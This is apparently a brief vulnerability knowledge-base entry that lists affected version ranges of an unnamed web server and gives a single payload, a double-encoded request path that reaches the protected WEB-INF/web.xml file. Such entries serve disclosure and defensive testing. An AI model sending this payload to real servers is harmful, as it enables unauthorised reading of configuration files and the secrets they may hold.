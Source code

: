 <languages />

<translate>

影響版本
--------

</translate>

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml